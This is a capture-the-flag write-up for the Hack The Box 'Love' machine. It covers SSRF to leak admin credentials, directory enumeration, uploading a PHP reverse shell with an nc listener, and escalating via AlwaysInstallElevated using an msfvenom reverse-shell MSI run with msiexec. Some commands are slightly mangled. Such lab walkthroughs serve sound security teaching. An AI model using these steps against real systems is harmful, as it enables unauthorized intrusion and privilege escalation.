 ```yaml
---
layout: single
title: Love - Hack The Box
excerpt: "Love is a very easy Windows machine that can be easily solved if some basic concepts are clear. It contains a SSRF attack, which is not very common, and this machine is a very good example of how it works. Enumeration is also very important here, for both foothold and privilege escalation, this last one taking advantage of the AlwaysInstallElevated feature being turned on."
date: 2021-08-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-love/love_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - easy
  - infosec
tags:  
  - Windows
  - SSRF
  - WinPEAS
  - AlwaysInstallElevated
---
```


![](/assets/images/htb-writeup-love/love_logo.png)

Love is a very easy Windows machine that can be easily solved if some basic concepts are clear. It contains a SSRF attack, which is not very common, and this machine is a very good example of how it works. Enumeration is also very important here, for both foothold and privilege escalation, this last one taking advantage of the AlwaysInstallElevated feature being turned on.

## Nmap

We can scan the machine with `nmap -sV -T5 -p- 10.10.10.239 -oA Love`

![](/assets/images/htb-writeup-love/love2.png)

## Web servers

The first web server, in `http://love.htb`, has a login form into a “voting system”, but there is nothing to do here, at least now.

![](/assets/images/htb-writeup-love/love3.png)

If we look carefully at the nmap scan, we discover a new host, `staging.love.htb`.

![](/assets/images/htb-writeup-love/love4.png)

We can add this host to the hosts file and try to connect to it.

![](/assets/images/htb-writeup-love/love5.png)

The site is a kind of File Scanner, so we can find misconfigurations here to access to the machine.

![](/assets/images/htb-writeup-love/love6.png)

## SSRF attack

After some research, I find out SSRF attacks, which consist on making HTTP requests on the server that is hosting the application, so we can gain access to the machine taking advantage of the fact that the machine can make requests to itself.

![](/assets/images/htb-writeup-love/love7.png)

Then, if we try to access to the port 5000, we will see that we can't as we don't have permissions.

![](/assets/images/htb-writeup-love/love8.png)

Knowing this, we can send a request to localhost:5000 through the machine itself, which will send back to us the corresponding Password Dashboard which was available there, as the machine has permissions to see what is there.

![](/assets/images/htb-writeup-love/love9.png)

There we find some credentials, `admin@LoveIsInTheAir!!!!`.

![](/assets/images/htb-writeup-love/love10.png)

If we go back to the main web, we will see that this credentials doesn’t work here, not that they are wrong, but the web doesn’t answer.

![](/assets/images/htb-writeup-love/love11.png)

To solve this, we can launch a directory enumeration attack to discover hidden directories in the website, with `gobuster dir -u http://love htb/ -w /usr/share/wordlists/dirbuster/big.txt`. We discover an `/admin` directory, which we can access.

![](/assets/images/htb-writeup-love/love12.png)

In that directory, a panel similar to the first one is available, but in this case the credentials work and we can log in.

![](/assets/images/htb-writeup-love/love13.png)

There we find an admin dashboard that we can easily exploit, as we can upload files adding users to the voting system.

![](/assets/images/htb-writeup-love/love14.png)

## Reverse shell

To get a shell in the system, we will upload a PHP Reverse Shell that will give us RCE in the machine. The file should be a photo, but the web accepts .php files, so we won’t mess up with that and we’ll upload directly a reverse shell written in php.

![](/assets/images/htb-writeup-love/love15.png)

This reverse shell can be obtained in the [pentestmonkey github](https://github.com/pentestmonkey/php-reverse-shell). We have to modify it with our own ip and the port that we will be listening to at the time of uploading the shell.

![](/assets/images/htb-writeup-love/love17.png)

We easily upload the file as the photo of our new voter.

![](/assets/images/htb-writeup-love/love16.png)

And we proceed to listen in that port with `nc -nvlp 1234`.

![](/assets/images/htb-writeup-love/love18.png)

When the shell reaches the server, we’ll have access as the user “xampp”. First part of the machine completed.

![](/assets/images/htb-writeup-love/love19.png)

## System enumeration

To detect vulnerabilities in this machine that will lead us to a privileged user, we will be using WinPEAS, a script to enumerate possible vectors in our victim system.

![](/assets/images/htb-writeup-love/love20.png)

After uploading it as we did with the PHP Reverse Shell, what we find and we can check with `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstalledElevated` is that `AlwaysInstalledElevated` is enabled in this machine, which can be easily exploited as we will see.

![](/assets/images/htb-writeup-love/love22.png)

## AlwaysInstallElevated exploitation

In our own system we can prepare a malicious .msi file which we will transfer to the victim machine and then install as admin. To generate this file, we'll be using msfvenom with the command `msfvenom –platform windows –arch x64 –payload windows /x64/shell_reverse_tcp LHOST=10.10.14.126 LPORT=1234 –encoder x64/xor – iteration 9 –format msi –out exp.msi`. In LHOST we use our IP, and in LPORT the port to listen to.

![](/assets/images/htb-writeup-love/love23.png)

After uploading the file as we did before, we can execute it with `msiexec /I “C:\xampp\htdocs\omrs\images\exp.msi”`.

![](/assets/images/htb-writeup-love/love24.png)

Then we will receive a root shell in the nc listener.

![](/assets/images/htb-writeup-love/love25.png)

Now we can get the last flag, which is, as always, in the Desktop of the Administrator user.

![](/assets/images/htb-writeup-love/love27.png)


